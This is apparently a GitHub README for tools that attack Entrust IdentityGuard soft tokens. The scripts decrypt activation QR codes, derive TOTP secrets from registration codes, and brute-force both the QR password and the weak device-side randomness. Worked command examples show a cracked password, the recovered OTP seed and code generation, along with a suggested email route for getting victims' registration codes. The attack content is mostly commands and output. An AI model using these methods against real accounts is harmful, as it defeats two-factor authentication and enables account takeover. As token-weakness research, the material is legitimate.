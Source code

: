 # entrust-identityguard-tools
Tools for playing with Entrust IdentityGuard soft tokens, such as decrypting QR codes and generating secrets

# decode-qr-uri.py
Run this with the URI from a QR code to recieve the decrypted data. The decrypted data can be later combined with a registration code to derive the TOTP secrets.

Example:
```
$ ./decode-qr-uri.py 'igmobileotp://?action=secactivate&enc=VRUq6IoLWQRCMRITZEHtHUSWJiPwgu%2FN1BFyUHE5kxuHIEYoE3zmNTrAHeeUM5S3gzCnTy%2F%2Bdnbu%2FsjjQW%2BNEISx8C4ra8rLpxOl8E8w4KXHgjeBRgdvSzl%2BbzX5RYRrQlWgK8hsBT4pQYE0eFgW2TmRbzXu1Mu7XjKDcwsJLew32jQC2qyPLP8hljnv2rHwwsMfhQwgJUJYfctwLWWEDUFukEckaZ4O&v=1&mac=mhVL8BWKaishMa5%2B' 54998317
{"sn":"48244-13456","ac":"1745-7712-6942-8698","policy":"{\"allowUnsecured\":\"false\",\"trustedExecution\":\"NOT_ALLOWED\"}","regurl":"myid.umc.edu\/igst"}
```

# generate-otp.py
Once you have the required information from a QR code, you can combine it with a "registration code" to derive the OTP secret. This registration code contains random bytes that were generated on the end-users device (their mobile phone), and are thus required to determine the OTP secret. An example way to obtain all of this information would be through email, if the user recieves a QR code in their email, then responds with their registration code.

The OTP secret optionally includes the policy specification, which is provided as part of the QR code. *If you are having problems generating a valid OTP secret, try with or without the policy parameter*.

Example:
```
$ ./generate-otp.py 48244-13456 1745-7712-6942-8698 12211-49352 --policy '{"allowUnsecured":"false","trustedExecution":"NOT_ALLOWED"}'
bb9b6d72ae99b006de5e106935ec96da

To generate a code immediately, run:
oathtool -v --totp=sha256 --digits=6 bb9b6d72ae99b006de5e106935ec96da

$ ./generate-otp.py 48244-13456 1745-7712-6942-8698 12211-49352
9a8eab5ecc9fc413758a92ac223dc6a0

To generate a code immediately, run:
oathtool -v --totp=sha256 --digits=6 9a8eab5ecc9fc413758a92ac223dc6a0

$ oathtool -v --totp=sha256 --digits=6 9a8eab5ecc9fc413758a92ac223dc6a0
Hex secret: 9a8eab5ecc9fc413758a92ac223dc6a0
Base32 secret: TKHKWXWMT7CBG5MKSKWCEPOGUA======
Digits: 6
Window size: 0
Step size (seconds): 30
Start time: 1970-01-01 00:00:00 UTC (0)
Current time: 2019-10-06 08:50:31 UTC (1570351831)
Counter: 0x31EB8E5 (52345061)

814835
```

# crack-otp.py
Because Entrust soft tokens only use 2 bytes of randomness generated on the end-user device, this means they're trivially bruteforcable given the original QR code and a single OTP output. Simply decode the QR code as usual, and provide it to the script along with an example OTP output and when it was generated. The script will do a sloppy match on the timing (+ and - 30 seconds) to improve the chances of a successful key being found, unless the `--strict-time` paramater is given which causes the script to do an search match.

The script is fast enough on a CPU that a CUDA/OpenCL implmentation is probably not necessary.

Example:
```
$ time ./crack-otp.py 48244-13456 1745-7712-6942-8698 043700 1570434609
Possibe valid OTP seed found:  9a8eab5ecc9fc413758a92ac223dc6a0
To generate a code immediately, run:
oathtool -v --totp=sha256 --digits=6 9a8eab5ecc9fc413758a92ac223dc6a0

real    0m3.540s
user    0m3.537s
sys     0m0.003s

$ time ./crack-otp.py 48244-13456 1745-7712-6942-8698 043700 1570434609 --strict-time
Possibe valid OTP seed found:  9a8eab5ecc9fc413758a92ac223dc6a0
To generate a code immediately, run:
oathtool -v --totp=sha256 --digits=6 9a8eab5ecc9fc413758a92ac223dc6a0

real    0m1.212s
user    0m1.209s
sys     0m0.003s
```

# crack-qr-uri.go
The QR code normally comes with a relatively weak password, along with a MAC that can verify the password. This allows us to perform a bruteforce of all possible passwords in a relatively short period, even with a CPU implementation. Simply run the script with the QR code URI as a parameter and it will discover the password.

Performance on with a single modern CPU core results in 0.720 seconds (approximately, of course) to perform 1000 password attempts. The keyspace exists from 0 to 99999999.

Example (AWS EC2 c5.metal instance - 96 cores):
```
$ time go run crack-qr-uri.go -uri 'igmobileotp://?action=secactivate&enc=VRUq6IoLWQRCMRITZEHtHUSWJiPwgu%2FN1BFyUHE5kxuHIEYoE3zmNTrAHeeUM5S3gzCnTy%2F%2Bdnbu%2FsjjQW%2BNEISx8C4ra8rLpxOl8E8w4KXHgjeBRgdvSzl%2BbzX5RYRrQlWgK8hsBT4pQYE0eFgW2TmRbzXu1Mu7XjKDcwsJLew32jQC2qyPLP8hljnv2rHwwsMfhQwgJUJYfctwLWWEDUFukEckaZ4O&v=1&mac=mhVL8BWKaishMa5%2B' -threads 95
action=secactivate&enc=VRUq6IoLWQRCMRITZEHtHUSWJiPwgu%2FN1BFyUHE5kxuHIEYoE3zmNTrAHeeUM5S3gzCnTy%2F%2Bdnbu%2FsjjQW%2BNEISx8C4ra8rLpxOl8E8w4KXHgjeBRgdvSzl%2BbzX5RYRrQlWgK8hsBT4pQYE0eFgW2TmRbzXu1Mu7XjKDcwsJLew32jQC2qyPLP8hljnv2rHwwsMfhQwgJUJYfctwLWWEDUFukEckaZ4O&v=1
Candidate password found:  54998317

real    67m23.690s
user    3047m42.788s
sys     870m1.228s
```
